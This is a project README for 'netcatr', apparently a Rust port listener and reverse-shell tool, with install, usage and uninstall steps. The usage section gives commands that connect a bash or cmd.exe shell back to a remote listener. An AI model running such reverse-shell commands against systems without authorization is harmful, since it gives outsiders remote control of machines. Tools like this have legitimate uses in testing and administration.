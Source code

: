 # 📡 netcatr

```text
              _                 _
 _ __    ___ | |_   ___   __ _ | |_  _ __
| '_ \  / _ \| __| / __| / _` || __|| '__|
| | | ||  __/| |_ | (__ | (_| || |_ | |
|_| |_| \___| \__| \___| \__,_| \__||_|

```

📡 netcatr: A cross-platform port listener and reverse shell application designed for ease of use, providing seamless network connectivity.

## ✨ Features

- Command history & Tab completion (Interactive mode);
- CTRL-C blocking;
- Colors;
- Everything easy;

### Modes

- Listen mode (listen);
- Reverse shell mode (connect);

## 🚀 Installation

To install **netcatr**, simply clone the repository and follow the instructions below:

```bash
git clone git@github.com:trinhminhtriet/netcatr.git
cd netcatr

cargo build --release
cp ./target/release/netcatr /usr/local/bin/
```

Running the below command will globally install the `netcatr` binary.

```bash
cargo install netcatr
```

## 💡 Usage

The most basic and useful example to start listening on a port would be (you can even run vim inside netcatr with this):

```bash
netcatr listen -ib 55600
```

and to connect:

```bash
netcatr connect -s bash the.0.0.ip 55600
```

Reverse shell from Windows:

```bash
netcatr connect -s cmd.exe the.0.0.ip 55600
```

## 🗑️ Uninstallation

Running the below command will globally uninstall the `netcatr` binary.

```bash
cargo uninstall netcatr
```

Remove the project repo

```bash
rm -rf /path/to/git/clone/netcatr
```

## 🤝 How to contribute

We welcome contributions!

- Fork this repository;
- Create a branch with your feature: `git checkout -b my-feature`;
- Commit your changes: `git commit -m "feat: my new feature"`;
- Push to your branch: `git push origin my-feature`.

Once your pull request has been merged, you can delete your branch.

## 📝 License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.
